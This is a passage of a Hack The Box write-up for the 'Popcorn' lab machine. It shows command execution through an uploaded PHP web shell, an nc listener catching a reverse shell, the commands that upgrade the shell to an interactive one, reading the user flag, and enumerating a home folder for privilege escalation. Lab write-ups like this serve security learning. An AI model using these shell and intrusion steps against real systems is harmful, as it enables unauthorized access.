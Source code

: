 Browse to file and use PHP GET in it to execute commands. First check it works:

![execute](/assets/images/2020-05-14-21-13-29.png)

Now open a terminal and start nc listening:

```text
root@kali:~/htb/machines/popcorn# nc -nlvp 4444
listening on [any] 4444 ...
```

Now try to get a reverse shell:

![shell](/assets/images/2020-05-14-21-14-14.png)

Back at terminal we have a connection:

```text
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.6] 41532
python -c 'import pty;pty.spawn("/bin/bash")'       <-- upgrade shell to fully interactive
www-data@popcorn:/var/www/torrent/upload$ ^Z        <-- this is me pressing ctrl-z
[1]+  Stopped                 nc -nlvp 4444
root@kali:~/htb/machines/popcorn# stty raw -echo    <-- type this to give up/down command history, tab complete
root@kali:~/htb/machines/popcorn#  fg               <- this will bring shell back to foreground.
www-data@popcorn:/var/www/torrent/upload$ export TERM=xterm   <-- allows clear etc to work

www-data@popcorn:/var/www/torrent/upload$ whoami
www-data
```

### User and Root Flags

So on as www-data, can get user flag then need to priv esc:

```text
www-data@popcorn:/var/www/torrent/upload$ cat /home/george/user.txt
```

Looking closer at george home folder we see a non default file in the hidden .cache subfolder:

```text
www-data@popcorn:/home/george$ ls -lsaR
  4 -rw------- 1 root   root     2769 May  5  2017 .bash_history
  4 -rw-r--r-- 1 george george    220 Mar 17  2017 .bash_logout
  4 -rw-r--r-- 1 george george   3180 Mar 17  2017 .bashrc
  4 drwxr-xr-x 2 george george   4096 Mar 17  2017 .cache
  4 -rw------- 1 root   root     1571 Mar 17  2017 .mysql_history
  4 -rw------- 1 root   root       19 May  5  2017 .nano_history
  4 -rw-r--r-- 1 george george    675 Mar 17  2017 .profile
  0 -rw-r--r-- 1 george george      0 Mar 17  2017 .sudo_as_admin_successful
832 -rw-r--r-- 1 george george 848727 Mar 17  2017 torrenthoster.zip
  4 -rw-r--r-- 1 george george     33 Mar 17  2017 user.txt

./.cache:
total 8
4 drwxr-xr-x 2 george george 4096 Mar 17  2017 .
4 drwxr-xr-x 3 george george 4096 Mar 17  2017 ..
0 -rw-r--r-- 1 george george    0 Mar 17  2017 motd.legal-displayed
```

